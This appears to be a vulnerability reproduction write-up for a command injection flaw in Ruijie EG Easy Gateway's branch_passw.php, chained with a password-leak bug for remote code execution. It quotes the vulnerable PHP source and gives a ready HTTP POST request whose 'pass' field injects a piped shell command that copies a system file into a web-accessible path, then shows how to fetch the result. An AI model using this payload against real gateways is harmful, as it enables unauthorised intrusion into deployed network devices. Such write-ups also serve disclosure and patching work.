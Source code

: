# Ruijie EG Easy Gateway branch_passw.php remote command execution

## Vulnerability Description

Ruijie EG Easy Gateway branch_passw.php has a command execution vulnerability, cooperate with Ruijie EG Easy Gateway Administrator account password leakage vulnerability to reach RCE control server

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ruijie EG Easy Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

First log in to the background (can combine Ruijie EG Easy Gateway administrator account password leakage vulnerability)

Vulnerability file branch_passw.php

```php
<?php

/**
 * 分支密码的统一管理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);  //定义系统目录分隔符
define('AROOT', dirname(__FILE__) . DS);    //定义入口所在的目录
include_once(dirname(dirname(__FILE__)) . DS . 'mvc' . DS . 'controller' . DS . 'core.controller.php');

class defaultController extends coreController {

    private $filename;
    private $cli = "evpn-server config all-clients file \"/data/evpn/cfg_pwd.text\"";

    function __construct() {
        parent::__construct();
        $this->filename = DS . "data" . DS . "evpn" . DS . "cfg_pwd.text";
    }

    /**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
    
    /**
     * 关闭集中控制功能
     */
    function closeAction(){
        evpnShell("/usr/local/evpn/server/cfg_pass.sh disable");
    }

    /**
     * 获取分支密码
     */
    function getAction() {
        $command = "/usr/local/evpn/server/echo_pass.sh";
        $content = [];
        exec(EscapeShellCmd($command), $content);
        $data = array("status" => true,
            "data" => isset($content[0]) && $content[0] === "" ? "" : $content);
        json_echo($data);
    }
    
    /**
     * 获取分支密码设置列表
     */
    function listAction(){
        $province = p("province");
        $city = p("city");
        $district = p("district");
        $shell = "/usr/local/evpn/server/sh_clients_pass.sh";
        if($province !== FALSE && $province != ""){
            $shell .= " province ".iconv("UTF-8", "GB2312//IGNORE", $province);
        }
        if($city !== FALSE && $city != ""){
            $shell .= " city ".iconv("UTF-8", "GB2312//IGNORE", $city);
        }
        if($district !== FALSE && $district != ""){
            $shell .= " district ".iconv("UTF-8", "GB2312//IGNORE", $district);
        }
        header("Content-type: text/html;charset=gbk");
        header("Cache-Control: no-cache, must-revalidate");
        header("Pragma: no-cache");
        echo `$shell`;
    }

}

include_once dirname(dirname(__FILE__)) . '/init.php';     //mvc架构初始化
```



The vulnerability part



```php
/**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
```



The `&pass` variable is controllable and the command is executed without filtering. Use `|` to bypass it



Send a request packet



```plain
POST /itbox_pi/branch_passw.php?a=set HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 41
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=52222egp72ilkpf2de7qbrigk3;user=admin;
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

pass=|cat /etc/psswd>../test_test.txt
```



Visit again



```plain
https://xxx.xxx.xxx.xxx/test_test.txt
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-29.png)



## 
